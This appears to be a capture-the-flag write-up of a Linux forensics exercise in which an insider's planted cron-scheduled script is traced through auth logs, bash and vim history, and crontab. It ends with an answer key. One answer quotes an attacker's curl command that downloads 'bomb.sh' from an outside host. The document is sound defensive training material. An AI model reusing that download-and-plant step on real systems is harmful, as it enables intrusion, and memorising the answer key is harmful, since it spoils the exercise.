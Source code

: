 # Disgruntled - Easy

* Linux Forensics cheatsheet:

  * System and OS info:

    * OS release info - ```/etc/os-release```

    * User accounts info - ```/etc/passwd```

    * User group info - ```/etc/group```

    * Sudoers list - ```/etc/sudoers```

    * Login info - ```/var/log/wtmp```

    * Authentication logs - ```/var/log/auth.log*```

  * System config:

    * Hostname - ```/etc/hostname```

    * Timezone info - ```/etc/timezone```

    * Network interfaces - ```/etc/network/interfaces```, ```ip a s```

    * Open network connections - ```netstat -natp```

    * Running processes - ```ps aux```

    * DNS info - ```/etc/hosts```, ```/etc/resolv.conf```

  * Persistence mechanism:

    * Cron jobs - ```/etc/crontab```

    * Services - ```/etc/init.d```

    * Bash shell startup - ```/home/username/.bashrc``` (for user), ```/etc/bash.bashrc``` and ```/etc/profile``` (for system)

  * Evidence of execution:

    * Authentication logs - ```/var/log/auth.log*```

    * Bash history - ```/home/username/.bash_history```

    * Vim history - ```/home/username/.viminfo```

  * Log files:

    * Syslogs - ```/var/log/syslog```

    * Authentication logs - ```/var/log/auth.log*```

    * Third-party logs - ```/var/log```

* Now, ```ls -la /home``` shows us the user 'cybert' - this is the disgruntled IT user we have to check on.

* ```cat /home/cybert/.bash_history``` shows us the commands run by this user; this does not contain the complete list of commands though.

* As we want to check commands run using elevated privileges, we can check ```/var/log/auth.log```.

* The log file is huge, so we can filter out commands using ```cat /var/log/auth.log | grep "COMMAND="```.

* The logs also show that a user 'it-admin' was created after installing the package.

* The logs show that 'bomb.sh' file was edited - this is suspicious activity.

* Commands related to this script were run by 'it-admin', so we need to check that user's '.bash_history' file.

* Now, the script was edited using 'vi', so we can get more info using ```cat /home/it-admin/.viminfo```.

* We can view more info about the script found using ```ls -la /bin/os-update.sh``` and ```cat /bin/os-update.sh```.

* Now, this file is supposed to be executed later - we can check the cronjobs at ```/etc/crontab```.

* This contains a cronjob which can be decoded online to show when the script will be executed.

```markdown
1. The user installed a package on the machine using elevated privileges. According to the logs, what is the full command? - /usr/bin/apt install dokuwiki

2. What was the present working directory when the previous command was run? - /home/cybert

3. Which user was created after the package from the previous task was installed? - it-admin

4. A user was then later given sudo privileges. When was the sudoers file updated? - Dec 28 06:27:34

5. A script file was opened using the 'vi' text editor. What is the name of this file? - bomb.sh

6. What is the command used that created the file ```bomb.sh```? - curl 10.10.158.38:8080/bomb.sh --output bomb.sh

7. The file was renamed and moved to a different directory. What is the full path of this file now? - /bin/os-update.sh

8. When was the file from the previous question last modified? - Dec 28 06:29

9. What is the name of the file that will get created when the file mentioned executes? - goodbye.txt

10. At what time will the malicious file trigger? - 08:00 AM
```
